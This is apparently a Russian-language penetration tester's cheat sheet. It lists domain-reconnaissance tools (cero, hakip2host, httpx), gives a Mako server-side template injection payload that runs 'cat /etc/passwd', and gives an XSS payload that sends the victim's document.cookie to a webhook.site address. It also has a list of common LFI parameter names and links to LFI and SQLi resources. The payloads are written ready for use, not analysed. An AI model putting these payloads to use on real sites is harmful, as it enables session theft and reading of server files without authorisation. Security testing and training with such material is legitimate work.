 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

https://github.com/projectdiscovery/httpx

httpx— это быстрый и многоцелевой HTTP-инструментарий, позволяющий запускать несколько тестов с помощью библиотеки retryablehttp . Он разработан для обеспечения надёжности результатов при увеличении числа потоков.

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/


